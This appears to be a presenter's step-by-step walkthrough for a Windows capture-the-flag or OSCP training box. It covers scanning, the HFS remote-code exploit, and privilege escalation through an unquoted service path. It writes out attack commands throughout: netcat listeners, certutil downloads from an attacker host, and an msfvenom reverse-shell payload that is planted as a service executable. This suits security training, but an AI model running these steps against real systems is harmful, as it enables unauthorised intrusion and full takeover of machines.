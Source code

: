 ### Enumeration
- nmap Automator
```
nmapAutomator.sh -t Vulns -o nmap_automator -H 10.10.220.173
```
- Auto Recon
```
autorecon 10.10.220.173
```

- What ports are open?
	- 80, 135,139, 445, 3389, 5985, 8080, random high ports
		- Talk about how 135, 139 and 445 are typically open
	- Visit the page for each port
		- If you get 404, make sure to try HTTPS
		- 8080 has login info
			- Split terminal into 2
	- Search each version for exploit
### Initial Access

- https://www.exploit-db.com/exploits/39161
	- Make sure to change local port number and IP in the script
	- Set NC listener
		- `nc -lnvp 6666`
	- Host the NC file
		- Talk about UPDOG
			- Show how we are running updog
			- `pipx install updog`
			- Move to HTTP folder
			- `updog -p 80`
		- Grab the nc.exe
			- Google where nc.exe is on Kali
			- Copy to `/home/kali/Desktop/training/USCG/training/OSCP/HTTP`
	- Run the exploit
		- `python2 2014-6287.py 10.10.220.173 8080`
		- Check that updog gets hit
		- Run again
	- Get a shell
		- Immediate SA commands
			- whoami /priv
			- ipconfig /all
			- tasklist
	- Get user.txt on desktop
### Priv Esc
- Try and access administrator right away
- Create folder on Bill Desktop
	- `mkdir priv`
- Copy over winpeas and sharpup
	- Talk about how I used them on test
	- `certutil -urlcache -split -f http://10.6.25.100/PowerUp.ps1`
	- `certutil -urlcache -split -f http://10.6.25.100/winPEASany.exe`
- Run PowerUp.ps1
	- Start powershell with `powershell.exe -ep bypass`
	- `. .\PowerUp.ps1``
		- Seems to be broken
	- `C:\Users\bill\Desktop\priv`
- Try Winpeas
	- `.\winPEASany.exe`
	- Lots of info
	- Check out interesting services
```
AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
```
- Literally gives you the instructions
	- https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#services
- Make a service EXE named the same in updog
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.25.100 LPORT=5555 -f exe -o Advanced.exe
```
- Copy the file over
	- `certutil -urlcache -split -f http://10.6.25.100/Advanced.exe`
	- move the old Advanced and save it to location
	`copy C:\Users\Bill\desktop\Advanced.exe C:\Program Files (x86)\IObit
	- Setup listener on 5555 
		- `nc -nlvp 5555`
- Stop server
	- `sc stop AdvancedSystemCareService9`
- Start service
	- `sc start AdvancedSystemCareService9`
- Get callback
	- Typically can't stop/start services, then you would restart machine